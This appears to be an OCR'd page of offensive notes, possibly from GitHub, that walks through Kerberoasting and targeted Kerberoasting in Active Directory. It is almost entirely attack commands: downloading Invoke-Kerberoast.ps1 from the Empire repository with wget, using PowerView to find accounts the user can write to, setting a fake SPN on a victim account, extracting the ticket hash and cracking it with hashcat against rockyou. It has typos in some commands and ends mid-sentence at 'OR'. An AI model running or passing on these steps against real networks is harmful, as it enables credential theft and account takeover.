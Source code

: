 >NEEDS LOCAL ADMIN USER ACCESS

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

Look for accounts that have SPN set up.
```
. .\Invoke-Kerberoast.ps1
```

```
invoke-kerberoast
```

Look for accounts where we have GenericAll, for GenericWrite.
```
. .\PowerView.ps1
```

Copy your current user's Security Identifier value:

```
Get-DomianUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```

```
Set-DomainObject -Identity $TARGET_USER -Set @{serviceprinciplename='whatever/whatever'}
```

See if it was set correctly:
```
Get-DomainUser -Identity $TARGET_USER | select serviceprincipalname
```

```
. .\Invoke-Kerberoast.ps1
```

```
invoke-kerberoast
```

Hash should appear here, copy the hash value.

In notepad++ press CTRL+J to join all the lines together. CRTL+H > enable Regular express. Replace the spaces in the document with:

Find what: \s*  
Replace with:

```
hashcat.exe -m 13100 kerberoast.txt rockyou.txt -O
```

OR
